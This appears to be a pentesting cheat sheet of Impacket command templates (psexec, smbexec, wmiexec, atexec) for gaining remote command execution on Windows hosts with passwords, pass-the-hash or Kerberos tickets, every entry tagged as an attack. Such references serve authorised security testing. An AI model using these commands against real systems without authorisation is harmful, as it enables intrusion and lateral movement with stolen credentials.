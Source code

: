 # impacket

% impacket, windows, exec

## PSEXEC with username
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
psexec.py <domain>/<user>:<password>@<ip>
```

## PSEXEC with pass the Hash (pth)
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
psexec.py -hashes <hash> <user>@<ip>
```

## PSEXEC with kerberos
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
export KRB5CCNAME=<ccache_file>; psexec.py -dc-ip <dc_ip> -target-ip <ip>> -no-pass -k <domain>/<user>@<target_name>
```

## SMBEXEC with username
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
smbexec.py <domain>/<user>:<password>@<ip>
```

## SMBEXEC with pass the Hash (pth)
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
smbexec.py -hashes <hash> <user>@<ip>
```

## SMBEXEC with kerberos
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
export KRB5CCNAME=<ccache_file>; smbexec.py -dc-ip <dc_ip> -target-ip <ip>> -no-pass -k <domain>/<user>@<target_name>
```

## wmiexec
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  
Execute a command shell without touching the disk or running a new service using DCOM

```
wmiexec.py <domain>/<user>:<password>@<ip>
```

## wmiexec  with pass the hash (pth) 
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  

Execute a command shell without touching the disk or running a new service using DCOM

```
wmiexec.py -hashes <hash> <user>@<ip>
```

## atexec - execute command view the task scheduler 
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
Using \pipe\atsvc via SMB

```
atexec.py <domain>/<user>:<password>@<ip> "command"
```

## atexec pass the hash (pth)
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
Execute command view the task scheduler (using \pipe\atsvc via SMB)

```
atexec.py -hashes <hash> <user>@<ip> "command"
```
